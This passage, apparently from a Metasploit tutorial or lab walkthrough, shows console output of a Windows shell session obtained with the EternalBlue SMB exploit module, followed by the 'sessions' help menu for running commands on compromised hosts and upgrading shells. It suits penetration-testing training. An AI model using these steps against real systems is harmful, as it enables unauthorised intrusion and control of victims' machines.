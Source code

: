 `===============`

`Id Name Type Information Connection`

`-- ---- ---- ----------- ----------`

`1 shell x64/windows Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation... 10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)`

`msf6 exploit(windows/smb/ms17_010_eternalblue) >`

### **Working with sessions**

The `sessions` command will list all active sessions. The `sessions` command supports a number of options that will help you manage sessions better.

Sessions help menu

`msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h`

`Usage: sessions [options] or sessions [id]`

`Active session manipulation and interaction.`

`OPTIONS:`

`-C Run a Meterpreter Command on the session given with -i, or all`

`-K Terminate all sessions`

`-S Row search filter.`

`-c Run a command on the session given with -i, or all`

`-d List all inactive sessions`

`-h Help banner`

`-i Interact with the supplied session ID`

`-k Terminate sessions by session ID and/or range`

`-l List all active sessions`

`-n Name or rename a session by ID`

`-q Quiet mode`

`-s Run a script or module on the session given with -i, or all`

`-t Set a response timeout (default: 15)`

`-u Upgrade a shell to a meterpreter session on many platforms`

`-v List all active sessions in verbose mode`

`-x Show extended information in the session table`

`Many options allow specifying session ranges using commas and dashes.`

`For example: sessions -s checkvm -i 1,3-5 or sessions -k 1-2,5,6`

`msf6 exploit(windows/smb/ms17_010_eternalblue) >`
